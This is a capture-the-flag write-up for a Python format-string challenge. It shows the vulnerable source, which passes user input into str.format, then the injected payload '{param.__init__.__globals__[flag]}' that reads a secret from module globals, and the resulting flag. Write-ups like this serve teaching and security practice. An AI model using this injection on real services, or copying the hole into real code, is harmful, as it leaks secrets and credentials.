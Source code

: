 # con-string-cat
> attach.......to get universe

## About the Challenge
We were given a server to connect and the source code
```
nc chall.foobar.nitdgplug.org 30011
```
And here is the source code (You can get the source code [here](chall.py))
```python
flag = open('flag.txt').read()

class foobar:
    def __init__(self, uname):
        self.uname = uname

    def display(self):
        print(self.uname)

foo = foobar("welcome_to_foobarctf")

def resolver(template, resolv):
    return template.format(param = resolv)

text = "This is for u :) {param}"

offset = int(input("enter the offset: "))
string_to_insert = input("enter string to insert: ")

if offset > len(text):
    print("invalid input")
else:
    text = text[0:offset] + string_to_insert + text[offset:]
    print(resolver(text, foo))
```

When we run the program, we need to input 2 things, the offset and the string. For example if I input 1 and the string is daffainfo:


[Image extracted text: enter
the offset:
enter
string to insert: daffainfo
[daffainfo his is for
u :)
main_
foobar object at OxzfOc3bofzbe0>]


## How to Solve?
After doing some research about `format` in python, I found there is 1 vulnerability that can happen by using `format`. We can access attribute object using `str.format` (You can check the reference [here](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/))

So, I input 24 as offset (You can input anything from 1 - 25, but I prefer 24 so we can read the flag easilty) And I input this as the string

```
{param.__init__.__globals__[flag]}
```

So, I tried to access the `flag` variable from the global namespace of the `__init__` function's module, using the `__globals__` attribute of the function.


[Image extracted text: enter the offset:
24
enter
string
to
insert:
{param_
init
globals
[flag]}
This
is
for
:) <
main__.foobar object at OxzfsOfAc9fbeO GLUG{7h3_Univ3rs@l_fl@g}]


```
GLUG{7h3_Univ3r$@l_fl@g}
```